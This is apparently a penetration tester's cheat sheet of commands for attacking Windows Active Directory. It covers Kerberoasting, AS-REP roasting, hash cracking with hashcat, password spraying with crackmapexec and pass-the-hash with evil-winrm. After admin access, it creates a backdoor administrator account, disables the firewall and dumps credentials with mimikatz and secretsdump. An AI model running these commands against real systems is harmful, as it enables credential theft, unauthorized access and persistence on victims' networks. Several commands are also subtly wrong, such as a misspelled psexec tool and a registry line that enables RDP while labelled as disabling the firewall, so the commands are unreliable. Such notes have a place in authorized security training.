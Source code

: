 	- Kerberoasting: `impacket-getuserspns -request -dc-ip dc01 domain/username
		- Crack with `hashcat hashes /usr/share/wordlists/rockyou.txt`
	- ASRep-Roast: `impacket-GetNPUsers -request -dc-ip dc01 domain/username -outputfile user.asrep
		- AS-REP hashes can't be passed (must crack)
		- Crack with `hashcat user.asrep /usr/share/wordlist/rockyou.txt` (add `-r /usr/share/hashcat/rules/best64.rule` if have time)
		- On Windows: `.\Rubeus.exe asreproast`
		- Save hash as `hashes.asreproast` (add `$23` separator to hash before username)
		- Crack: `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
	- `impacket-psexe domain/username@ip.address`
	- `crackmapexec smb $IP -u users -p "PaSSw0rd" -d domain.name`
- SMB (445)
	- `enum4linux -A 192.168.x.x` (`-u user -p password`)
	- Password spraying `crackmapexec smb 10.0.0.1 -u users.txt -p passwords.txt --continue-on-success --shares`
	- `smbclient //dc01/share -U domain/username`
		- `get filename.zip` (crack zip password with `zip2john`)
	- `smbclient -L //192.168.x.x -U domain/username`
- RDP (3389)
	- `crackmapexec rdp -u users -p passwords --continue-on-success 192.168.x.x.`
- WinRM (5985,5986)
	- `crackmapexec winrm -u users -p passwords --continue-on-success 192.168.x.x.`
	- PassTheHash: `evil-winrm -i 192.168.x.x -u adminsitrator -H administratorhash`
	- Creds: `evil-winrm -i 192.168.x.x. -u adminname -p ADMINpassw0rd`
# If Local Admin...
- Create backdoor account
	- `user /add backdoor password1` 
	- `net localgroup administrators /add backdoor`	
- Disable firewall
	- `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f`
	- `netsh advfirewall set allprofiles state off`
- Run [Mimikatz](https://github.com/ParrotSec/mimikatz)
	- `privilege::debug`, `token:elevate`
	- Find NTLM hashes: `sekurlsa::logonpasswords` or `lsadump::sam`
		- `hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt`
		- `hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
	- Dump tickets: `sekurlsa::tickets`
		- "Ticket Granting Service" has limited options
		- "Ticket Granting Ticket" can request a TGS for specific resources
- Other
	- From Kali:`impacket-secretsdump domain/username@192.168.x.x
	- From Kali: `impacket-getNPUsers domain/user -outfile asrep.txt`
# Random
- Move a file to the current directory: `mv ~/dir/filepath/file.txt .
- Comment out changes to code rather than deleting it
- Try a different type of python (eg. python2) if you get errors
- Run command then `| findstr /i username
